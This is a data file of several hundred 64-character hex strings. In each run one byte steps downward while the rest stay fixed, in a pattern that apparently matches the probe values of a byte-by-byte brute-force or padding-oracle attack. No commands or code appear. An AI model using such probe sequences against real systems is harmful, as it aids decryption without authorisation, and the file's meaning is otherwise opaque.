008dbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
008cbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
008bbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
008abb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0089bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0088bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0087bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0086bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0085bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0084bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0083bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0082bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0081bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0080bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
007fbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
007ebb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
007dbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
007cbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
007bbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
007abb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0079bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0078bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0077bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0076bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0075bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0074bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0073bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0072bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0071bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0070bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
006fbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
006ebb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
006dbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
006cbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
006bbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
006abb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0069bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0068bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0067bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0066bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0065bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0064bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0063bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0062bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0061bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0060bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
005fbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
ff40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
fe40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
fd40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
fc40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
fb40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
fa40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
f940a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
f840a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
f740a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
f640a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
f540a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
f440a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
f340a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
f240a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
f140a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
f040a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
ef40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
ee40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
ed40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
ec40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
eb40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
ea40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
e940a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
e840a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
e740a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
e640a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
e540a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
e440a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
e340a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
e240a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
e140a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
e040a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
df40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
de40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
dd40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
dc40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
db40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
da40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
d940a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
d840a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
d740a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
d640a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
d540a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
d440a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
d340a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
d240a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
d140a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
d040a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
cf40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
ce40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
cd40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
cc40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
cb40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
ca40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
c940a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
c840a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
c740a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
c640a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
c540a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
c440a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
c340a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
c240a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
c140a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
c040a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
bf40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
be40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
bd40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
bc40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
bb40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
ba40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
b940a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
b840a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
b740a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
b640a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
b540a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
b440a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
b340a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
b240a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
b140a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
b040a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
af40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
ae40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
ad40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
ac40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
ab40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
aa40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
a940a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
a840a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
a740a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
a640a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
a540a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
a440a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
a340a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
a240a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
a140a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
a040a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
9f40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
9e40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
9d40a429d19db2e333d6931ff21ebee677eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000000000fffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000fefe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000fdfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000fcfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000fbfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000fafe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000f9fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000f8fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000f7fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000f6fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000f5fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000f4fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000f3fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000f2fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000f1fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000f0fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000effe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000eefe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000edfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000ecfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000ebfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000eafe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000e9fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000e8fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000e7fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000e6fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000e5fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000e4fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000e3fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000e2fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000e1fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000e0fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000dffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000defe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000ddfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000dcfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000dbfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000dafe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000d9fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000d8fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000d7fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000d6fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000d5fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000d4fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000d3fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000d2fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000d1fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000d0fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000cffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000cefe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000cdfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000ccfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000cbfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000cafe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000c9fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000c8fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000c7fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000c6fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000c5fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000c4fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000c3fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000c2fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000c1fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000c0fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000bffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000befe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000bdfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000bcfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000bbfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000bafe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000b9fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000b8fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000b7fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000b6fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000b5fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000b4fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000b3fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000b2fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000b1fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000b0fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000affe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000aefe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000adfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000acfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000abfe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000aafe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000a9fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000a8fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000a7fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000a6fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000a5fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000a4fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000a3fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000a2fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000a1fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000000a0fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000009ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000009efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000009dfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000009cfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000009bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000009afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000099fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000098fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000097fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000096fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000095fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000094fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000093fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000092fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000091fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000090fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000008ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000008efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000008dfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000008cfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000008bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000008afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000089fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000088fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000087fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000086fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000085fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000084fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000083fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000082fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000081fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000080fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000007ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000007efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000007dfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000007cfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000007bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000007afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000079fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000078fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000077fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000076fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000075fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000074fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000073fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000072fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000071fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000070fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000006ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000006efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000006dfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000006cfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000006bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000006afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000069fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000068fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000067fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000066fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000065fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000064fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000063fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000062fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000061fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000060fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000005ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000005efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000005dfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000005cfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000005bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000005afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000059fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000058fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000057fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000056fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000055fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000054fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000053fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000052fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000051fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000050fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000004ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000004efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000004dfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000004cfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000004bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000004afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000049fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000048fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000047fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000046fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000045fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000044fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000043fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000042fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000041fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000040fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000003ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000003efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000003dfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000003cfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000003bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000003afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000039fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000038fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000037fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000036fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000035fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000034fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000033fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000032fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000031fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000030fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000002ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000002efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000002dfe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000ff2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000fe2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000fd2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000fc2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000fb2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000fa2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000f92efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000f82efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000f72efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000f62efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000f52efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000f42efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000f32efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000f22efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000f12efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000f02efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000ef2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000ee2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000ed2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000ec2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000eb2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000ea2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000e92efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000e82efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000e72efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000e62efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000e52efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000e42efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000e32efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000e22efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000e12efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000e02efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000df2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000de2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000dd2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000dc2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000db2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000da2efe249615e3e8da834ab4e67cc0348cc4
